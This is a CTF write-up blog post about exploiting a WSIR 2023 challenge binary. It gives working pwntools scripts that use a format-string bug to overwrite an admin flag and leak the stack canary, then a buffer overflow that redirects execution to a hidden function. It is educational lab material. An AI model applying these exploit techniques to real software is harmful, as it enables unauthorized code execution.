



About a month ago the WSIR 2023 national level was held and I was one of the competition designers and judges.

Now, the blog wouldn't be good enough without at least one post about binary exploiting so here it is.

This challenge is easy-medium and as I write this post I'll solve it at the same time. I'll try to explain my thought process as I go along, treating it as a black box (without having read the actual source code) (It's been a while so it'll be ok I guess).

## Analysing the binary
Well as anything else first we should analyse to see what we are dealing with, let's see.
```bash
$ file stack                                                                                                                                                                                                                              
stack: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, BuildID[sha1]=02dabf21c7908bf871d7a7144df54471ff8d3fb1, for GNU/Linux 3.2.0, not stripped
```
Well the first good news is that the binary is dynamically linked. How about it's mitigations?
```bash
$ checksec --file=stack
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
(I'll write a post about what are these and other basics of binary exploiting later and put the link here so this would be useful for everyone 😄 )

well at least the PIE is not enable which mean that the virtual address of codes and objects will be static and will not change each time we run the program. Further I'll explain why is it useful.

```text
Enter your name: 
a
Welcome user: 
a

1. Admin panel
2. Change your name
3. Reason you (the user) are here
What do you want to do? 
```

Running the program to analyse what it's supposed to do, we'll see that it basically just get our name and print it and other options are either disable or we don't have access to them.

This leaves us with two options, first buffer overflow which is not possible at this point becuase the canary is enable (We know it from checksec command) so this leaves us with only one more thing to try.

## Format String
[Owasp](https://owasp.org/www-community/attacks/Format_string_attack)
```text
Enter your name: 
%p
Welcome user: 
0x1

1. Admin panel
2. Change your name
3. Reason you (the user) are here
What do you want to do? 
```

I won't explain the format string vulnerability here, as I plan to write detailed posts about it and other topics related to pwn. I will provide a link to those posts later.

So now we know the vulenrability that we have but what can we do with it? Well first of all we can get the value of canary so we can exploit bof if there is one in the program. We have arbitary read and write usually with format string and well there is alot we can do but first let's see what do we need.

## Assembly is fun
Ah s**t, here we go again.
Jokes aside usually assembly isn't that frustrating, It's just a puzzle you need to solve using time and effort whether for reversing and cracking or exploiting or etc.

I'll use r2 (radare2) for this challenge. Let's check the functions.

```bash
[0x7f1e458679c0]> afl
0x004010d0    1 34           entry0
0x00401110    4 33   -> 31   sym.deregister_tm_clones
0x00401140    4 49           sym.register_tm_clones
0x00401180    3 33   -> 32   sym.__do_global_dtors_aux
0x004011b0    1 6            entry.init0
0x00401204   11 155          sym.admin
0x0040147c    1 9            sym._fini
0x0040129f    4 44           sym.ac
0x004011b6    3 78           sym.itguy
0x00401030    1 6            sym.imp.puts
0x00401080    1 6            sym.imp.gets
0x00401040    1 6            sym.imp.__stack_chk_fail
0x004012cb    1 22           sym.func
0x00401100    1 1            sym._dl_relocate_static_pie
0x004012e1   10 250          main
0x004013db    5 160          sym.disablefunction
0x00401000    3 23           sym._init
0x00401050    1 6            sym.imp.printf
0x00401060    1 6            sym.imp.fgets
0x00401070    1 6            sym.imp.getchar
0x00401090    1 6            sym.imp.fopen
0x004010a0    1 6            sym.imp.perror
0x004010b0    1 6            sym.imp.__isoc99_scanf
0x004010c0    1 6            sym.imp.exit
```
If you are experienced in reversing, you will immediately notice the five interesting functions. But if you are not familiar with it, don't worry, you don't need to read all the functions. Start with the main function and check the custom functions inside it, then keep going.
Let's take a look at the main function.

Alright, here is the 4 functionalities of menu. let's examine what's inside the func and ac functions, which correspond to option number three and one, respectively.

As we expected, the func function was empty, but the ac function is interesting. (Admin panel functionality) Why? becuase of the obj.isadmin variable, which is set to zero. This is why we can't login to the admin section. We can exploit format string to change that valueand this is the reason that disabled pie is good for us, even though it's not impossible to obtain the Vaddr of the object with enabled PIE. It's just easier without it, and in this case, we got lucky.

## Exploiting
Let's get into admin panel.
First we need to find the object virtual address which can be accomplished in many different ways. Since I'm already in the r2 so I'll just run `px @obj.isadmin` and write the address.

```bash
[0x7f1e458679c0]> px @obj.isadmin
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0x0040406c  0000 0000 0000 0000 0000 0000 0000 0000  ................                                                                                                                                                                       
0x0040407c  0000 0000 0000 0000 0000 0000 0000 0000  ................
0x0040408c  0000 0000 0000 0000 0000 0000 0000 0000  ................
```

Now I'm going to use pwntools library and write an exploit for this section to see what is going on in the admin panel.

Try it out yourself first but here's the code I wrote:


Before going further, let's explain what is happening in the code.

Well basically the code is getting the object addr automatically (I love automating), and generating and sending the payload for us to change that value but what's that 8 and how did I get that?

The 8 is the offset for format string, basically the number that we can see our own input using format string. I found it as easy as just entring multiple `%p %p` and then checked which index was my input (I knew the hex code of my input) and the dictionary is to define change *where* to *what*.

### Canary 🐦

Canary is static all over the program so once we capture it we can use it in one or another function it's not changing. Now how can we get that? Yeah using format string again we just need to find the offset and for that we'll use r2 to see what is the canary by examining fs+0x28 (or something else if it's different in the check) and get the value of that and then manually or automatically we check every offset to the value we got.

```python3
from pwn import *

e = context.binary = ELF("./stack")

isadmin = e.sym["isadmin"]

p = process()

p.sendline(fmtstr_payload(8, {isadmin: 1}))

p.interactive()

# Attach r2 using pid and examine the 16bit value of fs+0x28 and get out of process interactive and put canary in the if below and we got the offset.

for i in range(30):
    try:
        p.sendline('2')
        p.sendline("%"+str(i)+"$p")
        p.recvuntil('Welcome user')
        p.recvline()
        a=p.recvline()
        if b'0xb1d00ccebad82000' in a:
            print(i)
            break
    except Exception as e:
        print(str(e))
```

Read the comment in the code...

## THE BOF xD

now we have the canary offset and able to get to the bof all that is left to do is to find the bof offset and write the exploit.

```python3
from pwn import *

e = context.binary = ELF("./stack")

isadmin = e.sym["isadmin"]

p = process()

p.sendline(fmtstr_payload(8, {isadmin: 1}))
p.recv()
p.sendline(b'2\n%17$p')

p.recvuntil('Welcome user')
p.recvline()

canary=int(p.recvline(),16)

payload = b'\x00'*24 # Padding
payload += p64(canary) # Canary value
payload = payload.ljust(40, b'\x00') # Padding again
payload += p64(e.sym['disablefunction']) # Address of disabled function
p.sendline(b'1\n2\n'+payload) # BOF

print(p.recvall()) # Get the flag
```

# Authors

> Written by [D4rkNebula](https://github.com/D4rkNebula)